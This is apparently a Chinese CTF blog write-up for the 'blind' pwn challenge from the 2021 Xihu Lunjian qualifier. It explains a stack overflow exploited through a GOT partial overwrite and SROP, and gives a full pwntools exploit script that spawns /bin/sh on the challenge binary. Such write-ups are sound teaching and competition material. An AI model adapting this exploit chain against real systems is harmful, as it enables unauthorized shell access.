 ```yaml
---
layout: article
pageview: true
key: 2021-12-10-xihulunjian2021-pwn-wp
title: 西湖论剑2021初赛Pwn题WP
author: Ch4rc0al
categories:
  - WriteUps 
tags: 
  - Pwn
  - CTF
---
```







<!--more-->



## blind

主函数内一个栈溢出，没有开`PIE`，可利用函数只有`alarm`,`sleep`,`read`，结尾`return read(xxx)`，考虑`srop`，我们在`bss`段写下`/bin/sh`字符串，修改`alarm`函数的got表地址后一位为`0x?5`将其改为`syscall`，在栈上布置`Sigreturn frame`，内容为执行`execve('/bin/sh',0,0)`，在read里输入`0xf`个字符调用`signal return`，完成getshell。

代码写的很难看，请见谅

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

p=process('./blind')

debug=1

elf=ELF('./blind')
p_rdi=0x00000000004007c3
p_rsi_r15=0x00000000004007c1
call_rax=0x00000000004006ae
main=0x4006b6
bss=elf.bss()+0x100
pad='\x00'*0x58

def csu(call,rdi,rsi,rdx,ret):
    csu_end=0x4007ba
    csu_front=0x4007a0
    payload=pad+p64(csu_end)+p64(0)+p64(1)+p64(call)+p64(rdx)+p64(rsi)+p64(rdi)+p64(csu_front)+'\x00'*0x38+p64(ret)
    return payload

sigframe=SigreturnFrame()
sigframe.rax=constants.SYS_execve
sigframe.rsp=bss+0x100
sigframe.rdi=bss
sigframe.rsi=0
sigframe.rdx=0
sigframe.rip=elf.plt['alarm']

gdb.attach(p,'b read')

pay=csu(elf.got['read'],0,bss,0x8,main).ljust(0x500,'\x00')

p.send(pay)

p.send('/bin/sh\x00')

pay=(csu(elf.got['read'],0,elf.got['alarm'],0x1,0xdeadbeaf)[:-8]+csu(elf.got['read'],0,bss+0x100,0xf,elf.plt['alarm'])[0x58:]+str(sigframe)).ljust(0x500,'\x00')

p.send(pay)

p.send('\x15')

p.send('\x00'*15)

p.interactive()
```

